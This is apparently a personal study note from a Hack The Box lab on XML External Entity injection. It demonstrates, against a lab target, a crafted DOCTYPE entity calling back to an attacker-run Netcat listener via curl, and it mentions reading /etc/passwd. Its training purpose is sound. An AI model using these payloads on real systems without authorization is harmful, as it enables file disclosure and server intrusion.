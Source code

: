 ```yaml
---
sticker: emoji//1f480
---
```

XML External Entity (XXE) Injection vulnerabilities occur when XML data is taken from a user-controlled input without properly sanitizing or safely parsing it, which may allow us to use XML features to perform malicious actions. XXE vulnerabilities can cause considerable damage to a web application and its back-end server, from disclosing sensitive files to shutting the back-end server down. Our [Web Attacks](https://academy.hackthebox.com/module/details/134) module covers XXE Injection vulnerabilities in detail. It should be noted that XXE vulnerabilities affect web applications and APIs alike.

Let us assess together an API that is vulnerable to XXE Injection.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along.

Suppose we are assessing such an application residing in `http://<TARGET IP>:3001`.

By the time we browse `http://<TARGET IP>:3001`, we come across an authentication page.

Run Burp Suite as follows.

```shell-session
smoothment@htb[/htb]$ burpsuite
```

Activate burp suite's proxy (_Intercept On_) and configure your browser to go through it.

Now let us try authenticating. We should see the below inside Burp Suite's proxy.

![image](https://academy.hackthebox.com/storage/modules/160/11.png)


```http
POST /api/login/ HTTP/1.1
Host: <TARGET IP>:3001
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 111
Origin: http://<TARGET IP>:3001
DNT: 1
Connection: close
Referer: http://<TARGET IP>:3001/
Sec-GPC: 1

<?xml version="1.0" encoding="UTF-8"?><root><email>test@test.com</email><password>P@ssw0rd123</password></root>
```

- We notice that an API is handling the user authentication functionality of the application.
- User authentication is generating XML data.

Let us try crafting an exploit to read internal files such as _/etc/passwd_ on the server.

First, we will need to append a DOCTYPE to this request.

What is a DOCTYPE?

DTD stands for Document Type Definition. A DTD defines the structure and the legal elements and attributes of an XML document. A DOCTYPE declaration can also be used to define special characters or strings used in the document. The DTD is declared within the optional DOCTYPE element at the start of the XML document. Internal DTDs exist, but DTDs can be loaded from an external resource (external DTD).

Our current payload is:


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]>
<root>
<email>test@test.com</email>
<password>P@ssw0rd123</password>
</root>
```

We defined a DTD called _pwn_, and inside of that, we have an `ENTITY`. We may also define custom entities (i.e., XML variables) in XML DTDs to allow refactoring of variables and reduce repetitive data. This can be done using the ENTITY keyword, followed by the `ENTITY` name and its value.

We have called our external entity _somename_, and it will use the SYSTEM keyword, which must have the value of a URL, or we can try using a URI scheme/protocol such as `file://` to call internal files.

Let us set up a Netcat listener as follows.


```shell-session
smoothment@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
```

Now let us make an API call containing the payload we crafted above.


```shell-session
smoothment@htb[/htb]$ curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>test@test.com</email><password>P@ssw0rd123</password></root>'
<p>Sorry, we cannot find a account with <b></b> email.</p>
```

We notice no connection being made to our listener. This is because we have defined our external entity, but we haven't tried to use it. We can do that as follows.


```shell-session
smoothment@htb[/htb]$ curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>&somename;</email><password>P@ssw0rd123</password></root>'

```

After the call to the API, you will notice a connection being made to the listener.

```shell-session
smoothment@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [<VPN/TUN Adapter IP>] from (UNKNOWN) [<TARGET IP>] 54984
GET / HTTP/1.0
Host: <VPN/TUN Adapter IP>:4444
Connection: close
```

The API is vulnerable to XXE Injection.

# Question
---
![](cybersecurity/images/Pasted%2520image%252020250219172306.png)


